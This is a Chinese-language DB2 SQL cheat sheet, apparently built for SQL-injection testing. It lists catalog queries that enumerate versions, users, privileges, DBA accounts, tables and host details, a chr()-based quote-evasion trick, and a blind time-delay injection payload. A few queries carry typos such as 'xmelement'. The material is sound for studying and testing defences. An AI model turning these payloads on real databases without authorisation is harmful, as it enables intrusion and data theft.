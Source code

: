 ## 查询语句

### 版本信息
```sql
select versionnumber, version_timestamp from sysibm.sysversions;
select service_level from table(sysproc.env_get_inst_info()) as instanceinfo
select getvariable('sysibm.version') from sysibm.sysdummy1 -- (v8+)
select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo
select service_level,bld_level from sysibmadm.env_inst_info
```

### 注释
 ```sql
 select blah from foo --
 ```

### 当前用户
 ```sql
select user from sysibm.sysdummy1
select session_user from sysibm.sysdummy1
select system_user from sysibm.sysdummy1
 ```

### 列出用户
 ```sql
select distinct(authid) from sysibmadm.privileges --
select grantee from syscat.dbauth --
select distinct(definer) from syscat.schemata --
select distinct(grantee) from sysibm.systabauth --
 ```

### 列出权限
 ```sql
select * from syscat.tabauth --
select * from syscat.tabauth where grantee = current user --
select * from syscat.dbauth where grantee = current user;;
select * from SYSIBM.SYSUSERAUTH — List db2 system privilegies
 ```

### 列出DBA账户
 ```sql
select distinct(grantee) from sysibm.systabauth where CONTROLAUTH='Y'
select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = ‘Y’ or SYSADMAUTH = ‘G’
 ```

### 当前数据库
```sql
select current server from sysibm.sysdummy1
```

### 列出数据库
```sql
select distinct(table_catalog) from sysibm.tables
SELECT schemaname FROM syscat.schemata;
```

### 列
```sql
select name, tbname, coltype from sysibm.syscolumns
```

### 表
```sql
select table_name from sysibm.tables
select name from sysibm.systables
```

### 列名称查找表
```sql
select tbname from sysibm.syscolumns where name='username'
```

### 选择第N行
```sql
select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only
```

### 选择第N个字符
```sql
select substr('abc',2,1) FROM sysibm.sysdummy1
```

### 按位与/或/非/异或
```sql
select bitand(1,0) from sysibm.sysdummy1  //返回为0.其它可选bitandnot、bitor、bitxor、bitnot
```

### ASCII值
```sql
select chr(65) from sysibm.sysdummy1
```

### 字符-->ASCII值
```sql
select ascii('A') from sysibm.sysdummy1
```

### Cast查询
```sql
select cast('123' as integer) from sysibm.sysdummy1
select cast(1 as char) from sysibm.sysdummy1
```

### 字符串拼接
```sql
select 'a' concat 'b' concat 'c' from sysibm.sysdummy1
select 'a' || 'b' from sysibm.sysdummy1
```

### Case查询
```sql
select CASE WHEN (1=1) THEN 'AAAAAAAAAA' ELSE 'BBBBBBBBBB' END from sysibm.sysdummy1
```

### 引号规避
```sql
SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1
```

### 时间延迟
```sql
' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68
```

### 序列化为XML
```sql
select xmlagg(xmlrow(table_schema)) from sysibm.tables
select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables)
select xml2clob(xmelement(name t, table_schema)) from sysibm.tables
```

### 主机名/IP和操作系统
```sql
select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info
```

### 数据库文件位置查询
```sql
select * from sysibmadm.reg_variables where reg_var_name='DB2PATH'
```

### 系统配置
```sql
select dbpartitionnum, name, value from sysibmadm.dbcfg where name like 'auto_%'
select name, deferred_value, dbpartitionnum from sysibmadm.dbcfg
```

### 默认系统数据库

> + SYSIBM
> + SYSCAT
> + SYSSTAT
> + SYSPUBLIC
> + SYSIBMADM
> + SYSTOOLs
